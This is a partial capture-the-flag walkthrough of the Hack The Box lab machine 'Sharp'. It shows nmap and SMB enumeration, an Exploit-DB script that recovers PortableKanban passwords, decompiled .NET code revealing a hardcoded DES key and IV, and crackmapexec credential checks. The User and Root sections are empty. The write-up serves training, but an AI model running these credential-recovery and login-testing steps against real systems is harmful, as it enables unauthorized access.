


# Sharp
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.219 --min-rate 10000                                                                       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:15 BST
Nmap scan report for 10.10.10.219 (10.10.10.219)
Host is up (0.11s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5985/tcp open  wsman
8888/tcp open  sun-answerbook
8889/tcp open  ddi-tcp-2

Nmap done: 1 IP address (1 host up) scanned in 29.11 seconds
```
```
└─$ nmap -Pn -p135,139,445,5985,8888,8889 -sC -sV 10.10.10.219 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:16 BST
Nmap scan report for 10.10.10.219 (10.10.10.219)
Host is up (0.15s latency).

PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8888/tcp open  storagecraft-image StorageCraft Image Manager
8889/tcp open  mc-nmf             .NET Message Framing
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-30T20:17:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -3s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.93 seconds

```
- `smb`
```
└─$ smbmap -H 10.10.10.219 
[+] IP: 10.10.10.219:445        Name: 10.10.10.219                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        dev                                                     NO ACCESS
        IPC$                                                    NO ACCESS       Remote IPC
        kanban                                                  READ ONLY

```
```
└─$ smbclient -N //10.10.10.219/kanban
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 14 18:56:03 2020
  ..                                  D        0  Sat Nov 14 18:56:03 2020
  CommandLine.dll                     A    58368  Wed Feb 27 08:06:14 2013
  CsvHelper.dll                       A   141312  Wed Nov  8 13:52:18 2017
  DotNetZip.dll                       A   456704  Wed Jun 22 21:31:52 2016
  Files                               D        0  Sat Nov 14 18:57:59 2020
  Itenso.Rtf.Converter.Html.dll       A    23040  Thu Nov 23 16:29:32 2017
  Itenso.Rtf.Interpreter.dll          A    75776  Thu Nov 23 16:29:32 2017
  Itenso.Rtf.Parser.dll               A    32768  Thu Nov 23 16:29:32 2017
  Itenso.Sys.dll                      A    19968  Thu Nov 23 16:29:32 2017
  MsgReader.dll                       A   376832  Thu Nov 23 16:29:32 2017
  Ookii.Dialogs.dll                   A   133296  Thu Jul  3 22:20:12 2014
  pkb.zip                             A  2558011  Thu Nov 12 20:04:59 2020
  Plugins                             D        0  Thu Nov 12 20:05:11 2020
  PortableKanban.cfg                  A     5819  Sat Nov 14 18:56:01 2020
  PortableKanban.Data.dll             A   118184  Thu Jan  4 21:12:46 2018
  PortableKanban.exe                  A  1878440  Thu Jan  4 21:12:44 2018
  PortableKanban.Extensions.dll       A    31144  Thu Jan  4 21:12:50 2018
  PortableKanban.pk3                  A     2080  Sat Nov 14 18:56:01 2020
  PortableKanban.pk3.bak              A     2080  Sat Nov 14 18:55:54 2020
  PortableKanban.pk3.md5              A       34  Sat Nov 14 18:56:03 2020
  ServiceStack.Common.dll             A   413184  Wed Sep  6 12:18:22 2017
  ServiceStack.Interfaces.dll         A   137216  Wed Sep  6 12:17:30 2017
  ServiceStack.Redis.dll              A   292352  Wed Sep  6 12:02:24 2017
  ServiceStack.Text.dll               A   411648  Wed Sep  6 04:38:18 2017
  User Guide.pdf                      A  1050092  Thu Jan  4 21:14:28 2018

                3803903 blocks of size 4096. 1462068 blocks available
smb: \> 
```
## Foothold
- Let's download the files
  - Googling shows [PortableKanban password retrieval](https://www.exploit-db.com/exploits/49409)
  - Running it reveals some creds
```
└─$ python3 49409.py PortableKanban.pk3
Administrator:G2@$btRSHJYTarg
lars:G123HHrth234gRG
```
### RE
- Looks like the intended path was to reverse engineer the `PortableKanban`
  - I'll open it `dnspy`



- Click `Edit -> Search Assemblies`
  - Enter `password`
  - We have `DbEncPassword` etc.



- Open `RoamingSettings`
  - We have a `DbEncPassword` which stores the encrypted password
```
		public string DbEncPassword { get; set; }

		// Token: 0x1700009D RID: 157
		// (get) Token: 0x060002E3 RID: 739 RVA: 0x00029549 File Offset: 0x00027749
		// (set) Token: 0x060002E4 RID: 740 RVA: 0x00029556 File Offset: 0x00027756
		[Category("\t\t\t\t\t\t\t\t\t\t\tData")]
		[DisplayName("Primary server password")]
		[Description("Master password required to get access to primary server databases. This password is common for all the users.")]
		[PasswordPropertyText(true)]
		[IgnoreDataMember]
		[Browsable(true)]
		public string DbPassword
		{
			get
			{
				return Crypto.Decrypt(this.DbEncPassword);
			}
			set
			{
				this.DbEncPassword = Crypto.Encrypt(value.Trim());
			}
		}
```

- `Crypto.Decrypt`
  - And we see our `key` and `IV` in the code, which were used in [script](https://www.exploit-db.com/exploits/49409)
```
		public static string Decrypt(string cryptedString)
		{
			string result;
			try
			{
				if (string.IsNullOrEmpty(cryptedString))
				{
					result = string.Empty;
				}
				else
				{
					DESCryptoServiceProvider descryptoServiceProvider = new DESCryptoServiceProvider();
					result = new StreamReader(new CryptoStream(new MemoryStream(Convert.FromBase64String(cryptedString)), descryptoServiceProvider.CreateDecryptor(Crypto._rgbKey, Crypto._rgbIV), CryptoStreamMode.Read)).ReadToEnd();
				}
			}
			catch (Exception)
			{
				result = string.Empty;
			}
			return result;
		}

		// Token: 0x04000001 RID: 1
		private static byte[] _rgbKey = Encoding.ASCII.GetBytes("7ly6UznJ");

		// Token: 0x04000002 RID: 2
		private static byte[] _rgbIV = Encoding.ASCII.GetBytes("XuVUm5fR");
	}
}
```
### Shell
- Let's test the creds we found
  - We can `smb` as `lars`, but we can't `winrm`
```
└─$ crackmapexec smb 10.10.10.219 -u administrator -p 'G2@$btRSHJYTarg'
SMB         10.10.10.219    445    SHARP            [*] Windows 10.0 Build 17763 x64 (name:SHARP) (domain:Sharp) (signing:False) (SMBv1:False)
SMB         10.10.10.219    445    SHARP            [-] Sharp\administrator:G2@$btRSHJYTarg STATUS_LOGON_FAILURE 
```
```
└─$ crackmapexec smb 10.10.10.219 -u administrator -p 'G2@$btRSHJYTarg'
SMB         10.10.10.219    445    SHARP            [*] Windows 10.0 Build 17763 x64 (name:SHARP) (domain:Sharp) (signing:False) (SMBv1:False)
SMB         10.10.10.219    445    SHARP            [-] Sharp\administrator:G2@$btRSHJYTarg STATUS_LOGON_FAILURE 
```

- Let's check `smb` permissions
```
└─$ smbmap -H 10.10.10.219 -u lars -p 'G123HHrth234gRG' 
[+] IP: 10.10.10.219:445        Name: 10.10.10.219                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        dev                                                     READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        kanban                                                  NO ACCESS
                                                                               
```

- Let's check `dev`
  - Check content of the `notes.txt`
```
└─$ smbclient //10.10.10.219/dev -U 'lars%G123HHrth234gRG'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Nov 15 11:30:13 2020
  ..                                  D        0  Sun Nov 15 11:30:13 2020
  Client.exe                          A     5632  Sun Nov 15 10:25:01 2020
  notes.txt                           A       70  Sun Nov 15 13:59:02 2020
  RemotingLibrary.dll                 A     4096  Sun Nov 15 10:25:01 2020
  Server.exe                          A     6144  Mon Nov 16 11:55:44 2020

                3803903 blocks of size 4096. 1459579 blocks available
```
```
Todo:
    Migrate from .Net remoting to WCF
    Add input validation
```
## User
## Root